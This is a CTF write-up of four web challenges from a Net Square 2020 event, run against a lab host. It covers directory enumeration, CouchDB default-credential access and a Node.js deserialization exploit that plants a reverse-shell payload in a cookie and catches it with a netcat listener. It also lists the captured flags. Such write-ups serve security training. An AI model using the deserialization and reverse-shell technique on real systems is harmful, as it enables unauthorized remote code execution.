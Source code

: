 # CTFFriday 2020 August Week 4

* Date: 28th August 2020
* Time: 2:00 to 3:00 PM

## Organized By

<kbd>![](NSCTFAUGW4/00.png)</kbd>   

[Net Square Solutions Pvt. Ltd.](https://net-square.com)

## About Me

Hi,

I am [Raj Gadhiya](https://twitter.com/gadhiyaraj727) and currently working as a Security Analyst at [Net Square Solutions Pvt. Ltd.](https://net-square.com). I participated in ctf as ```Raj```.

## Overview

This ```CTF``` is build by [Aman Barot](https://twitter.com/amanbarot12). There were 4 challenges in this CTF related to web. CouchDB was used at the backend and we exploited Node JS deserialization to get the final flag.

## Tools Used
- BurpSuite
- Nmap
- Dirb


I started the CTF with port scanning using nmap tool.

```nmap -p- 10.8.0.14```

<kbd>![](NSCTFAUGW4/0.png)</kbd> 

## First Challenge

```
Description:

Sale team will help you to solve the first flag.

http://10.8.0.14/
```

In the challenge description, I got an URL and I visited that URL.

<kbd>![](NSCTFAUGW4/1.png)</kbd>

I also got the hint that "Sales" team will help me to get the flag so I enumerated the directories using **dirb** tool.

```dirb http://10.8.0.14/```
 
<kbd>![](NSCTFAUGW4/2.png)</kbd>

I visited the "sales" directory and I got the first flag.

<kbd>![](NSCTFAUGW4/3.png)</kbd>

*Flag : nsctf{Y0u_S0lved_Easy_fl@g!}*

## Second Challenge

```
Description:

Find out sales team's confidential details which stored on same server.
```

I clicked on "Confidential Details" button because challenge description says that I need to check confidential details.

<kbd>![](NSCTFAUGW4/4.png)</kbd>

After reading ```confidentials.txt``` file, I got the idea that **CouchDB** is used at backend and I need to login using common username and password combination. From the nmap scan we also got that port number ```5984``` is open and it is the default port of CouchDB. Now I need to find the login page. So I searched a bit regarding the default login page of CouchDB and I got that I need to visit the ```_utils``` directory.

<kbd>![](NSCTFAUGW4/5.png)</kbd>

I used  our common username and password for login. After login, I found one database named ```flag```.

<kbd>![](NSCTFAUGW4/6.png)</kbd>

 In ```permissions``` configuration of the database I got the flag.

<kbd>![](NSCTFAUGW4/7.png)</kbd>

*Flag : nsctf{S0m3_pr0+ect!0n_!5_b3tt3r_th@n_n0n3}*

## Third Challenge

```
Description:

HR Team store offer letter on vulnerable server. Its leaked by someone.
```

After that I checked the ```links``` database.

<kbd>![](NSCTFAUGW4/8.png)</kbd>

There were 4 documents in links database. Each document contains a directory link.

<kbd>![](NSCTFAUGW4/9.png)</kbd>

From the description, I got the idea that I have to look for HR directory.

<kbd>![](NSCTFAUGW4/10.png)</kbd>

So I visited the ```HR-Team/offer-letters.html```. There were 5 PDF links and I visited each link.

<kbd>![](NSCTFAUGW4/11.png)</kbd>

In 4th PDF, I found the third flag.

<kbd>![](NSCTFAUGW4/12.png)</kbd>

*Flag : nsctf{Y3s_You_d!d_!+!}*

## Fourth Challenge

```
Description:

Detect the vulnerability in HR page and exploit it to get the flag!
```

From nmap scan, I found that port number 3000 is open. So I visited that port from the web browser. It was asking for username and password. I tried to login using common username and password.

<kbd>![](NSCTFAUGW4/13.png)</kbd>

After login, application was showing "Under progress" page.

<kbd>![](NSCTFAUGW4/14.png)</kbd>

I intercepted the the request of the same page and found that application is sending cookie in request. Send the request to Buro Suite repeater and observe the response. From response I came to know that it can be Node JS deserialization. So I tried to exploit this vulnerability to get Remote Code Execution.  

<kbd>![](NSCTFAUGW4/15.png)</kbd>

I used the [script](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) from github to get the reverse shell.

<kbd>![](NSCTFAUGW4/16.png)</kbd>

Run the downloaded script to generate the payload.
```python nodejsshell.py <YOUR_IP> <LISTENING_PORT>```

<kbd>![](NSCTFAUGW4/17.png)</kbd>

Put the payload between ```{"rce":"_$$ND_FUNC$$_function (){ <YOUR_PAYLOAD> }()*}```.

<kbd>![](NSCTFAUGW4/18.png)</kbd>

Encode the payload in base64.

<kbd>![](NSCTFAUGW4/19.png)</kbd>

Now refresh the same page and intercept the request.

<kbd>![](NSCTFAUGW4/20.png)</kbd>

Start the listener using  ```nc -lvp 4444``` and replace the cookie value with your encoded payload and forward the request.

<kbd>![](NSCTFAUGW4/21.png)</kbd>

You got the reverse shell!!

<kbd>![](NSCTFAUGW4/22.png)</kbd>

Now you just need to observe the flag.

<kbd>![](NSCTFAUGW4/23.png)</kbd>

*Flag : nsctf{H3y_y0u_d!d_!t}*

## CTF Statistics

<kbd>![](NSCTFAUGW4/scoreboard.png)</kbd>
